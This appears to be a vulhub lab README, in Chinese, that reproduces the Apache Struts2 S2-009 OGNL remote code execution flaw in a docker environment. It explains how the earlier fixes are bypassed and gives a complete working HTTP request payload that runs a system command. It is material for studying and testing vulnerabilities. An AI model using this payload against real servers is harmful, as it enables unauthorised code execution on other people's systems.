

# S2-009 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

> 前置阅读： 这个漏洞再次来源于s2-003、s2-005。了解该漏洞原理，需要先阅读s2-005的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中。

Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

## Exploit构造

测试环境是一个struts2的“功能展示”网站`Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是string的action。

先对`S2-009.war`进行解压（我用binwalk，其实直接zip就可以），可见源码都在`WEB-INF/src`目录中，我一般找ajax相关的代码，这些代码一般逻辑比较简单。

找到一个`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

代码没有更简单了，其接受了name参数并调用setName将其赋值给私有属性`this.name`，正是符合我们的要求。然后去`WEB-INF/src/java/struts-ajax.xml`看一下URL路由：

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

由于该POC没有回显，所以调用的是`touch /tmp/success`命令，查看/tmp目录发现已经成功：



黑盒情况下，这个洞也不是限制特别大。只要你在正常业务中找到传参的地方，就用该参数名可以试试。
